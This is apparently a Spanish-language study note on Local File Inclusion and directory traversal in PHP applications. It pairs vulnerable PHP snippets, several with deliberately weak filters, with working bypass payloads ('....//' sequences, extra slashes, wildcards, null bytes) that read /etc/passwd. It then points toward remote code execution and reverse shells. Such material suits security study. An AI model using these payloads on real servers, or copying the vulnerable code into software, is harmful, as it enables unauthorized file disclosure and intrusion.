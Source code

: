 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #LFI
--------------
# Definición

> **LFI (local file inclusion)** es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante manipular la entrada de archivos en una aplicación para cargar y ejecutar archivos arbitrarios en el servidor. Esto puede llevar a la exposición de información confidencial, la ejecución de código malicioso y potencialmente comprometer todo el sistema.
> 
> Se produce cuando una aplicación web no valida adecuadamente las entradas de usuario, permitiendo **acceder a archivos locales**.
> 
> Se suele utilizar al abusar de parámetros de entrada en la aplicación web. Los **parámetros de entrada** son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Se pueden manipular dichos **parámetros de entrada** para incluir rutas de archivo local en la solicitud, permitiendo acceder a archivos en el servidor web. Esta técnica se conoce como **Directory Path Traversal** y se utiliza comúnmente en ataques de LFI.
> 
> Empleando **Directory Path Traversal** el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema. Por ejemplo, se podría incluir "../" en el parámetro de entrada para navegar en el directorio superior en el que se encuentre actualmente.


--------
# Explotación

A la hora de representar el contenido en la página web, debemos fijarnos en la **URL**, ya que puede ser que la subpágina en la que estemos esté siendo pasada como un parámetro en la misma **URL**. Acaban de la siguiente manera: 

```
<URL>?filename=ejemplo
```

Por lo que sabemos que existe el parámetro *filename* del que podemos intentar abusar.

Nos podemos enfrentar a distintos escenarios, en los que podemos emplear distintos vectores de ataque. Dependiendo de la seguridad de del código, podremos utilizar unos u otros. En todos ellos podemos modificar simplemente la URL, o de manera más cómoda podemos modificar las peticiones desde [[Burpsuite]]. 


En el caso en el que no tiene **ninguna precaución**, podemos simplemente probar a que se muestre un archivo que queramos, por ejemplo **/etc/passwd**. Nos enfrentamos a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```

Por lo que si modificamos la url de manera que pidamos **cualquier archivo** del servidor, podremos acceder a el mismo:

```
?filename=/etc/passwd
```


Suponiendo que el desarrollador ha intentado mejorar el código, puede ser que te obligue a mostrar solo los archivos en un directorio específico, como **/var/www/html**, pero podemos burlar la seguridad utilizando "../" para acceder a archivos en directorios superiores. Nos enfrentamos a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	include("/var/www/html" . $filename);   #El punto sirve para concatenar cadenas en php
?>
```

Por lo que modificando el parámetro, podemos pedirle **cualquier archivo** incluyendo una secuencia de "../" en la petición:

```
?filename=../../../../../../../../../../etc/passwd
```


Puede darse el caso, el que el desarrollador intente solucionar el problema anterior, sustituyendo cada ocurrencia de "../" por nada, de manera que desaparecerían dichas ocurrencias:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)
	include("/var/www/html" . $filename);   
?>
```

Pero el problema con esta "solución" es que podemos inyectar mas ../ dentro de las cadenas, para que cuando se eliminen queden otros ../ y puedas seguir accedeindo a **cualquier archivo**:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd #Cuando se eliminan los ../ quedan los exteriores
```


Otro escenario puede ser que se utilicen expresiones regulares con **preg_match** para indicar que no se quieren mostrar algunos archivos en específico, por ejemplo el /etc/passwd:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)

	if(preg_match("/\/etc\/passwd/", $filename) === 1){
		echo "\n No puedes ver ese archivo\n"
	} else {
		include("/var/www/html" . $filename);   
	}
?>
```

Pero podemos seguir accediendo al mismo archivo si ponemos alguna barra más en la petición, o muchas barras y algún punto en medio:

```s
?filename=....//....//....//....//....//....//....//....//....//....//etc///.///passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/////./passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/./////passwd
?filename=....//....//....//....//....//....//....//....//....//....//etc/./././././passwd
```


Si fuera un comando ejecutado a nivel de sistema, podemos hacer uso de "?", de manera que no coincide dicha solicitud con la que está restringida:

```
?filename=....//....//....//....//....//....//....//....//....//....//e??/p?ssw?
```


En versiones anteriores a la 5.3 de **php**, si nos obligan a que un archivo tenga una configuración dada, podemos burlar dicha capa de seguridad añadiendo un **Null byte**, de manera que no es necesario que el archivo que queremos observar tenga dicha extensión. Nos podríamos enfrentar a algo parecido a lo siguiente:

```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename)
	include("/var/www/html" . $filename . ".php");   
?>
```

De manera que si incluimos el **Null byte** podemos seguir accediendo al archivo:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd%00 
```


Siguiendo con versiones antiguas, puede ser que en el propio código se esté comprobando los últimos x caracteres de la petición, pero podemos burlar este método de seguridad añadiendo un "/." al final de la petición:

```
?filename=....//....//....//....//....//....//....//....//....//....//etc/passwd/.
```


Puede ocurrir que un **LFI**, pueda desencadenar en un [[RCE (Remote Command Execution)]], de manera que podemos ejecutar comandos en la máquina víctima como nos plazca, con la posibilidad de poder obtener una [[Reverse shell]]. Para ello, haremos uso de los [[Wrappers]], o del [[Log Poisoning (LFI -- RCE)]].